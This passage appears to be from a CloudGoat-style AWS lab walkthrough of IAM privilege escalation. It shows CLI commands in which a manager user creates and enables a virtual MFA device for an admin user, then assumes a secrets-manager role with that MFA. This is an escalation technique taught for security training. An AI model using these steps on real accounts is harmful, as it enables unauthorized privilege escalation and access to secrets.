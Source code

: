 From the result, it tells us that the user who wants to assume this role should turn on Multi Factor Authentication (MFA).

### Turn on MFA
To turn on MFA, we need to use the manager user since the manager user has a permission to create MFA.

To enable MFA device, we need to create virtual MFA device first.
```shell
aws --profile kerrigan_manager iam create-virtual-mfa-device --virtual-mfa-device-name <whatever-name> --outfile <whatever-file-name>.png --bootstrap-method QRCodePNG
```

Result:
```json
{
    "VirtualMFADevice": {
        "SerialNumber": "arn:aws:iam::###:mfa/<device-name>"
    }
}
```


Open the png file, and scan the qrcode with your virtual authencicator apps. If you do not have one, you can should from the virtual authenticator apps [here](https://aws.amazon.com/iam/features/mfa/?audit=2019q1).

Now, we will enable MFA device.
```shell
aws --profile kerrigan_manager iam enable-mfa-device --user-name <admin-username> --serial-number arn:aws:iam::###:mfa/<device-name> --authentication-code1 <code1> --authentication-code2 <code2>
```

To check that our MFA device is enabled with the admin user
```shell
aws --profile kerrigan_manager iam list-virtual-mfa-devices
```

Result:
```json
{
    "VirtualMFADevices": [
        {
            "SerialNumber": "arn:aws:iam::###:mfa/<device-name>",
            "User": {
                "UserName": "admin_iam_privesc_by_key_rotation_###",
                "Arn": "arn:aws:iam::###:user/admin_iam_privesc_by_key_rotation_###",
                "CreateDate": "2024-03-12T05:27:03+00:00"
            },
            "EnableDate": "2024-03-13T11:05:40+00:00"
        }
    ]
}
```

### Assume target role, second try
Because the admin user turns on MFA, we need to add serial number and token code from authentication app for assuming the role
```shell
aws --profile kerrigan_admin sts assume-role --role-arn arn:aws:iam::###:role/cg_secretsmanager_iam_privesc_by_key_rotation_### --role-session-name <whatever-you-want> --serial-number arn:aws:iam::###:mfa/<device-name> --token-code <otp>
```
